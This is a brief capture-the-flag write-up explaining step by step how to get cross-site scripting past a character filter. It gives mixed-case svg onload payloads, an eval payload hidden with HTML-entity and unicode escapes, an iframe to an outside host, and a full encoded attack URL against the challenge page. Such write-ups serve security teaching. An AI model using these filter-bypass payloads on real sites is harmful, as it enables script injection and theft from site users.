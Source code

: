 # How 2 xss solve step by step

## Step 1
<svg/onload=alert(123)> // Not Work since it replace the repeated characters case-sensitively
<svg/OnLoad=Alert(123)> // Work since it replace the repeated characters case-sensitively

## Step 2
Ok to xss but we want to execute our command. 
Yet it still has a problem that the character will be deprecated like before
So we use, where &#97 is the HTML entity of a and \u{65} is the unicode of e
<SVG/ONLoAd=eval(n&#97;m\u{65})> now makes xss seems work.

<ifRame src=/\QVXZ.ML>
https://edu-ctf.kaibro.tw:30678/hackme.php?q=%3CSVG%2FONLoAD%3Deval%28n%26%2397%3Bm%5Cu%7B65%7D%29%3E